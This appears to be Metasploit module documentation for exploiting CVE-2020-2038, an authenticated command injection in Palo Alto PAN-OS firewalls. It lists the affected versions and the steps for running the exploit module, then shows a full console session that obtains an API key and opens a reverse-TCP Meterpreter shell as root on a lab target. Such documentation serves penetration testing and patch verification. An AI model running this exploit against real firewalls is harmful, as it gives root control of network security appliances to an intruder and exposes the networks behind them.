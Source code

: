 ## Vulnerable Application

This module exploits CVE-2020-2038, an authenticated OS Command Injection vulnerability in PAN-OS versions < 10.0.1, 
< 9.1.4 and <9.0.10 that allows authenticated administrators to execute arbitrary OS commands with root privileges. The 
Rest API allows authenticated users to send operational mode commands via the "op" request. Insufficient filtering of 
user inputs in the "op" request allows an attacker to inject commands.  

A Palo Alto Firewall demo VM can be requested at the following 
[link](https://www.paloaltonetworks.com/company/request-demo). PAN‑OS is the software that runs all Palo Alto Networks 
next-generation firewalls. PAN-OS will be running on the VM by default. The only setup necessary should be setting the administrator password. 

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module 
1. Receive a Meterpreter session as the `root` user.

## Scenario: PAN-OS 10.0.0

```
msf6 > use linux/http/panos_auth_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/panos_auth_rce) > set rhosts 192.168.2.196
rhosts => 192.168.2.196
msf6 exploit(linux/http/panos_auth_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/panos_auth_rce) > set PASSWORD N0tpassword!
PASSWORD => N0tpassword!
msf6 exploit(linux/http/panos_auth_rce) > run

[*] Started reverse TCP handler on 192.168.2.114:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating...
[+] Successfully obtained api key
[+] The target is vulnerable.
[*] Exploiting...
[*] Sending stage (989032 bytes) to 192.168.2.196
[*] Meterpreter session 1 opened (192.168.2.114:4444 -> 192.168.2.196:52592) at 2022-08-17 16:13:19 -0400
[*] Command Stager progress - 100.00% done (1111/1111 bytes)

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : PA-VM-10-0-0.home
OS           : Red Hat  (Linux 3.10.0-957.21.3.10.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
